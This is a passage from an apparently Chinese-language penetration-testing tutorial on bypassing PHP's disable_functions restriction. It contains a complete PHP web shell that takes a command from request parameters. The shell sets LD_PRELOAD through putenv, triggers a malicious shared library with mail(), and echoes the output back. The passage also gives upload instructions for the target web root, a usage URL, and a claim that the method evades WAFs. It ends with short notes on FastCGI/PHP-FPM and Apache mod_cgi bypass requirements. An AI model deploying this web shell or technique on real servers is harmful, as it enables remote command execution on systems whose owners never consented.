 再写一个PHP， 用putenv添加环境变量(一个是上传的so库地址、一个是要执行的命令)。

将system命令输出内容写入指定文件，然后读出。

```php
//bypass_disablefunc.php 
<?php
 	echo "<p> <b>example</b>: http://site.com/bypass_disablefunc.php?cmd=pwd&outpath=/tmp/xx&sopath=/var/www/html/bypass_disablefunc_x64.so </p>";

	$cmd = $_REQUEST["cmd"];
   $out_path = $_REQUEST["outpath"];
   $evil_cmdline = $cmd . " > " . $out_path . " 2>&1";
   echo "<p> <b>cmdline</b>: " . $evil_cmdline . "</p>";
   putenv("EVIL_CMDLINE=" . $evil_cmdline);
   $so_path = $_REQUEST["sopath"];
   putenv("LD_PRELOAD=" . $so_path);
   mail("", "", "", "");
   echo "<p> <b>output</b>: <br />" . nl2br(file_get_contents($out_path)) . "</p>";
	unlink($out_path);
?>
```

将编译成的**动态链接库**和**php文件**上传到目标网站根目录。

```bash
#用法如下
http://xx.com/bypass_disablefunc.php?cmd=ls&outpath=/tmp/ss&sopath=/var/www/html/bypass_disablefunc_x64.so
```

> PHP 支持putenv()、mail() 即可，甚至无需安装 sendmail。 (**此方法还可用于过WAF**)

### **Fastcgi/PHP-FPM**

Fastcgi 是一种通讯协议，用于Web服务器与后端语言的数据交换；

PHP-FPM 则是php环境中对Fastcgi协议的管理程序实现

Nginx为fastcgi 提供了 fastcgi_param 来主要处理映射关系，将 Nginx 中的变量翻译成 PHP 能够理解的变量

[蚁剑扩展](https://github.com/AntSwordProject/ant_php_extension)，用相应版本php编译即可 

### **Apache Mod CGI**

Mod CGI就是把PHP做为APACHE一个内置模块，

让apache http服务器本身能够支持PHP语言，不需要每一个请求都通过启动PHP解释器来解释PHP

它可以将cgi-script文件或者用户自定义标识头为cgi-script的文件通过服务器运行

在phpinfo看到`Server API -> CGI/FastCGI`，就可以确定是以cgi模式运行的了。

**要求**

> 1. apache且运行mod_cgi模式
> 2. web目录可写
> 3. 允许.htaccess生效
